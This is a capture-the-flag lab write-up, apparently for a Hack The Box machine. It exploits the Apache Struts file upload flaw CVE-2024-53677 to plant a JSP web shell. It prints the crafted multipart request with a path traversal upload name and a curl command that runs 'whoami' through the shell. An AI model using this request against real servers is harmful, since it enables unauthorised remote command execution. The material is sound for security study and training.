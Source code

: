 - Apache struts `6.3.0.1` is vulnerable to CVE-2024-53677
- I read about the vulnerability and how to exploit it on this article: [https://blogs.hiteshpatra.in/cve-2024-53677-apache-struts-file-upload-vulnerability-leading-to-rce](https://blogs.hiteshpatra.in/cve-2024-53677-apache-struts-file-upload-vulnerability-leading-to-rce)

## Initial Access

- HTTP request and response when uploading a test image:

<img width="1920" height="920" alt="image" src="https://github.com/user-attachments/assets/2cf88b4d-ab31-4e6a-9aea-f3e87049b91b" />

- We know that Struts 6.3.0.1 has a file upload validation bypass vulnerability from previous reading:
    - The file upload interceptor does not properly enforce file extension and path validation when multipart field names or related parameters are manipulated.
- We will modify the HTTP request to successfully upload a web shell as shown below:

```bash
POST /upload.action HTTP/1.1
Host: strutted.htb
Content-Length: 1652
Cache-Control: max-age=0
Origin: http://strutted.htb
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzuL6fjL87vEYS8TJ
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://strutted.htb/upload.action;jsessionid=B450348EDD368512170F1B32536EE482
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=B450348EDD368512170F1B32536EE482

------WebKitFormBoundaryzuL6fjL87vEYS8TJ
Content-Disposition: form-data; name="Upload"; filename="test.png"
Content-Type: image/png

PNG [Binary PNG bytes]
[JSP payload]
------WebKitFormBoundaryzuL6fjL87vEYS8TJ
Content-Disposition: form-data; name="top.uploadFileName"

../../cmd.jsp
------WebKitFormBoundaryzuL6fjL87vEYS8TJ--
```

<img width="1739" height="524" alt="image 1" src="https://github.com/user-attachments/assets/92a3e324-220c-47c6-9db1-0ad836bab449" />

```bash
┌──(kali㉿kali)-[~]
└─$ curl -X GET "http://strutted.htb/cmd.jsp?cmd=whoami" --output - 

<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
Command: whoami<BR>
tomcat

</pre>
</BODY></HTML>              
```
